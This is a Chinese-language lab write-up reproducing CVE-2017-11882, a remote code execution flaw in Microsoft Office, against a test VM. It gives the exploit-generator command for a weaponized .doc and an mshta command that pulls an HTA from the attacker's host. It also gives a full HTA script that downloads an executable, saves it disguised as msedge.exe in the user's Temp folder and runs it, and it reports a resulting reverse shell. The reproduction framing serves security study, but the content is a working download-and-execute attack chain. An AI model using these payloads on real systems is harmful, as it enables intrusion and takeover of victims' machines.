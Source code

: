 # CVE-2017-11882

> [CVE-2017-11882 Office RCE 复现 | 国光 (sqlsec.com)](https://www.sqlsec.com/2020/10/office.html)
> 
---

- [CVE-2017-11882](#cve-2017-11882)
  - [简介](#简介)
  - [复现环境](#复现环境)
  - [漏洞复现](#漏洞复现)
  - [参考材料](#参考材料)

---

## 简介

潜伏 17 年之久的 Office 远程代码执行漏洞（CVE-2017-11882）影响版本从 Office 2000 到当时最新的 Office 2016，攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。

---

## 复现环境

- 靶机: 
  - [Win7SP1旗舰版](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)+[Office2016](https://msdn.itellyou.cn/)
  - IP: `192.168.1.14`

- 攻击机 Kali
  - IP: `100.1.1.131`

---

## 漏洞复现

利用 [GitHub - Ridter/CVE-2017-11882: CVE-2017-11882 from https://github.com/embedi/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882) 中的 [Command109b_CVE-2017-11882.py](https://github.com/Ridter/CVE-2017-11882/blob/master/Command109b_CVE-2017-11882.py) 生成带命令的 doc 文件

```bash
python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o calc.doc
```

![image-20240617055440013](http://cdn.ayusummer233.top/DailyNotes/202406170554036.png)

受害者打开此文档即会弹出计算器

![image-20240617055823640](http://cdn.ayusummer233.top/DailyNotes/202406170558724.png)

---

试了下一些下载与执行文件的命令，效果都不是很理想，试下来似乎只适合短链命令，例如结合mshta脚本使用

`calc.hta`

```htaccess
<script>
    new ActiveXObject("WScript.Shell").Run("calc.exe");
</script>
```

```bash
python2 Command109b_CVE-2017-11882.py -c "mshta http://100.1.1.131:8000/download/calc.hta" -o htacalc.doc
```

![image-20240617064749124](http://cdn.ayusummer233.top/DailyNotes/202406170647275.png)

---

`deexe.hta`

```htaccess
<script>
var url = 'http://100.1.1.131:8000/download/normal.exe';var network = new ActiveXObject('WScript.Network');var username = network.UserName;var downloadPath = 'C:\\Users\\' + username + '\\AppData\\Local\\Temp\\msedge.exe';var xmlhttp = new ActiveXObject('MSXML2.XMLHTTP');xmlhttp.open('GET', url, false);xmlhttp.send();var stream = new ActiveXObject('ADODB.Stream');stream.Open();stream.Type = 1;stream.Write(xmlhttp.responseBody);stream.Position = 0;stream.SaveToFile(downloadPath, 2); stream.Close();var shell = new ActiveXObject('WScript.Shell');shell.Run(downloadPath);
</script>
```

![image-20240617065522463](http://cdn.ayusummer233.top/DailyNotes/202406170655737.png)

如果遇到上述错误需要 `ie-->Internet选项-->安全-->自定义级别-->找到“通过域访问数据源”-->选择“启用”。`

![image-20240617065739113](http://cdn.ayusummer233.top/DailyNotes/202406170657155.png)

也可以直接把站点加到可信站点里来帮助复现

成功反弹shell：

![image-20240617070200444](http://cdn.ayusummer233.top/DailyNotes/202406170702490.png)

---


## 参考材料

- 分析

- 利用工具
  - [GitHub - Ridter/CVE-2017-11882: CVE-2017-11882 from https://github.com/embedi/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

- 复现过程

- 检测对抗

